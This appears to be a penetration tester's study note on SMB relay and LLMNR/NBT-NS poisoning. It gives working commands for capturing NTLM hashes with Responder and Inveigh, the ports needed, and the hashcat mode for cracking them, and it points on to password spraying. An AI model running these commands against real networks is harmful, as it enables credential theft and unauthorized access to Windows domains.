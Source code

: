 SMB Relay Attack 

- **Responder:** Listens on the network for LLMNR/NBT-NS requests and responds with the attacker's IP, tricking victims into sending their hashes.
    
- **ntlmrelayx:** Relays captured hashes to other SMB services to gain access without cracking the hash[](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
    
- .
    
- **Mimikatz/Impacket:** Used for extracting hashes from memory or relaying them to other systems

## responder
hashes are stored in /usr/share/responder/logs

make sure to run with sudo/root and theses ports are open: 
```shell-session
UDP 137, UDP 138, UDP 53, UDP/TCP 389,TCP 1433, UDP 1434, TCP 80, TCP 135, TCP 139, TCP 445, TCP 21, TCP 3141,TCP 25, TCP 110, TCP 587, TCP 3128, Multicast UDP 5355 and 5353
```

```bash
sudo responder -I ens224 
```

then crack the hashes using [[hashcat]] -m 5600 


# Windows
use Inveigh in PS as administrator
```
Import-Module .\Inveigh.ps1

(Get-Command Invoke-Inveigh).Parameters

Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
there is also a C# version compiled into EXE 
```
.\Inveigh.exe
```
press `esc` and `HELP` to get commands to execute
```
GET NTLMV2UNIQUE
```


We can try a password attacks using the domain's password policy and also do domain user enumeration to make a target user  list [[Password Policy & Spraying]]
